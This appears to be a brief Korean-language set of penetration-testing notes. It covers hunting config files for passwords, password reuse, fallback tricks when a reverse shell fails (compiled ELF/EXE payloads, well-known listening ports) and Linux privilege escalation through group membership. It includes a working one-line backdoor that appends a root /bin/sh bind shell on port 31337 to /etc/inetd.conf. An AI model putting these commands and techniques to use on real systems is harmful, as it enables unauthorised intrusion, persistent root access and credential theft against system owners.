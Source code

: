 - config 파일을 먼저 find로 모두 찾아본 뒤에 패스워드 혹은 해시가 적혀 있는지 확인

- password reuse
---
# 리버스 셸 연결이 안될 때
- nc/bash/python3 등 리버스 연결이 되지 않는다면 elf 파일 혹은 exe 파일을 만들어서 전달해서 실행시켜보기.
- 리스닝 포트를 well knwon 포트(80,443 등)로 바꿔서 받아보기.

---
# inetd.conf(옛날 리눅스 환경)
`
echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf"
`

- 31337번 포트로 바인드 셸 연결

---
# linux privilege escalation
```bash
id
# uid,gid,groups가 아닌 다른 id가 있으면 권한 상승이 되는지 확인
```
<img width="620" height="47" alt="image" src="https://github.com/user-attachments/assets/385e64d5-6119-4bde-9fb4-f6c631746f3b" />

- https://www.hackingarticles.in/disk-group-privilege-escalation
